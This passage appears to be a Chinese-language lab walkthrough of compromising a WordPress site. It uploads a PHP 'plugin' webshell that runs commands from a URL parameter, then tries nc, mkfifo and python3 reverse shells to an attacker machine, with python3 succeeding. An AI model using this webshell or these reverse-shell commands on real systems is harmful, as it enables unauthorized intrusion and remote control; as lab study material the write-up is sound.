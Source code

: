 3. Plugins 修改PHP源代码 或者更简单的 写一个插件上传
`webshell.php`
```php
<?php
/**
* Plugin Name: Webshell
* Plugin URI: https://hacker.test
* Description: Wordpress Plugins webshell
* Version: 1.0
* Author: hacker
* Author URI: https://hacker.test
* License: https://nolicense
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```
要先压缩才能上传
```Shell
zip shell.zip webshell.php
```
提示安装成功，点击激活
激活后可以访问，默认插件路径为 `/wordpress/wp-content/plugins/`
访问 `http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=id` ，成功执行命令。
检查 `nc` 等工具是否存在
```
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which nc
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which bash
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which mkfifo
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which python
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which python2
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=which python3
```
反弹shell，发现 `nc` 可以连接，但是无法使用 `-e` 参数
```
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=nc 192.168.1.26 4444
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=nc 192.168.1.26 4444 -e /usr/bin/bash
```
按顺序使用如下命令反弹shell也失败了，原因暂时没搞明白
```
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=rm /tmp/f
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=mkfifo /tmp/f
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=cat /tmp/f | /usr/bin/bash -i 2>&1 | nc 192.168.1.26 4444 > /tmp/f
```
考虑使用 `Python3` 来反弹shell
执行如下命令
```Shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.26", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
即
```
http://192.168.1.32/wordpress/wp-content/plugins/webshell.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.1.26", 4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
成功获取到反弹shell
另一种获取反弹shell的方式是通过msf
```Shell
sudo msfdb run
```